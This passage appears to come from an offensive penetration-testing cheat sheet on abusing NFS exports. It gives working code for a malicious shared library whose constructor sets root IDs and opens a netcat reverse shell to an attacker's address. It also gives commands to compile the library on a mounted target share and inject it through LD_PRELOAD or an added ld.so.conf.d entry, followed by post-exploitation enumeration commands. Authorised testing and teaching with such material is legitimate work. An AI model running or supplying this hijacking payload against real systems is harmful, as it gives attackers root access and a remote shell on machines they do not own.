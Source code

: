 #### Shared Library Hijacking
```bash
# Create malicious library
cat <<'EOF' > /mnt/target_nfs/tmp/evil.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

static void inject() __attribute__((constructor));

void inject() {
    setuid(0);
    setgid(0);
    system("/bin/bash -c 'nc <your-ip> 4444 -e /bin/bash'");
}
EOF

# Compile as shared library
gcc -shared -fPIC /mnt/target_nfs/tmp/evil.c -o /mnt/target_nfs/tmp/evil.so

# Inject via LD_PRELOAD (requires ability to set environment)
export LD_PRELOAD="/tmp/evil.so"

# Or modify system library path
echo "/tmp" | sudo tee -a /mnt/target_nfs/etc/ld.so.conf.d/evil.conf
```

---

## ✅ Post-Exploitation Activities

### Initial Assessment
```bash
# Verify root access
id
whoami
groups

# System information
uname -a
hostname
cat /etc/*release*

# Network configuration
ip addr show
netstat -tulpn
ss -tulpn
```

### NFS-Specific Enumeration
```bash
# Check NFS configuration
cat /etc/exports
exportfs -v
showmount -a localhost

# NFS processes
ps aux | grep nfs
systemctl status nfs-server
systemctl status nfs-kernel-server

# NFS logs
tail -50 /var/log/nfs.log
```